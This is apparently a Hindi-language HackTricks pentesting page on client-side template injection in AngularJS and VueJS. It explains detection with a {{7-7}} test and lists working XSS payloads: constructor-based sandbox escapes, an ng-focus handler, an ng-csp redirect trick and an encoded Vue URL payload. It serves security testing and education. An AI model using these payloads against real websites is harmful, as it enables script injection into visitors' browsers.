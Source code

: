 <details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>


# सारांश

यह **सर्वर साइड टेम्पलेट इंजेक्शन (SSTI)** की तरह है, लेकिन यह **क्लाइंट** में होता है। **SSTI** आपको रिमोट सर्वर पर **कोड को निष्पादित** करने की अनुमति देता है, जबकि **CSTI** आपको पीड़ित पर **विचित्र JavaScript** कोड को निष्पादित करने की अनुमति देता है।

इस विकल्प को **टेस्ट** करने का तरीका **SSTI** के मामले में बहुत **समान** होता है, इंटरप्रेटर को डबल कुंजी के बीच कुछ निष्पादित करने की उम्मीद होगी और इसे निष्पादित करेगा। उदाहरण के लिए, कुछ ऐसा उपयोग करके: `{{ 7-7 }}` अगर सर्वर **विकल्पशील** है तो आपको `0` दिखेगा और अगर नहीं है तो आपको मूल दिखेगा: `{{ 7-7 }}`

# AngularJS

AngularJS एक लोकप्रिय JavaScript लाइब्रेरी है, जो **`ng-app`** एट्रिब्यूट (जिसे AngularJS निर्देशिका भी कहा जाता है) वाले HTML नोड की सामग्री की जांच करती है। जब HTML कोड में एक निर्देशिका जोड़ी जाती है, तो आप **दोहरी ब्रेसेज़ के भीतर JavaScript व्यक्तियों को निष्पादित** कर सकते हैं।\
उदाहरण के लिए, यदि आपका **इनपुट** HTML के शरीर में **प्रतिबिंबित** हो रहा है और शरीर `ng-app` के साथ परिभाषित है:  **`<body ng-app>`**

आप दोहरी ब्रेसेज़ का उपयोग करके दोहरी ब्रेसेज़ का उपयोग करके **विचित्र JavaScript** कोड को निष्पादित कर सकते हैं शरीर में जोड़कर:
```javascript
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
<input ng-focus=$event.view.alert('XSS')>

<!-- Google Research - AngularJS -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```
आप यहां **एंगुलरजेएस** में एक बहुत **सामान्य ऑनलाइन उदाहरण** इस विकल्पता का पता लगा सकते हैं [http://jsfiddle.net/2zs2yv7o/](http://jsfiddle.net/2zs2yv7o/)

{% hint style="danger" %}
[**एंगुलर 1.6 ने सैंडबॉक्स को हटा दिया**](http://blog.angularjs.org/2016/09/angular-16-expression-sandbox-removal.html#:\~:text=The%20Angular%20expression%20sandbox%20will,smaller%20and%20easier%20to%20maintain.\&text=Removing%20the%20expression%20sandbox%20does,surface%20of%20Angular%201%20applications.) इसलिए इस संस्करण से एक पेलोड जैसे `{{constructor.constructor('alert(1)')()}}` या `<input ng-focus=$event.view.alert('XSS')>` काम करना चाहिए।
{% endhint %}

# VueJS

आप यहां **व्यूजेएस** में एक **भेद्य व्यू.जेएस** का अमल करने का तरीका पा सकते हैं [https://vue-client-side-template-injection-example.azu.now.sh/](https://vue-client-side-template-injection-example.azu.now.sh)\
काम करने वाला पेलोड: [`https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor(%27alert(%22foo%22)%27)()%7D%`](https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor\(%27alert\(%22foo%22\)%27\)\(\)%7D%7D)
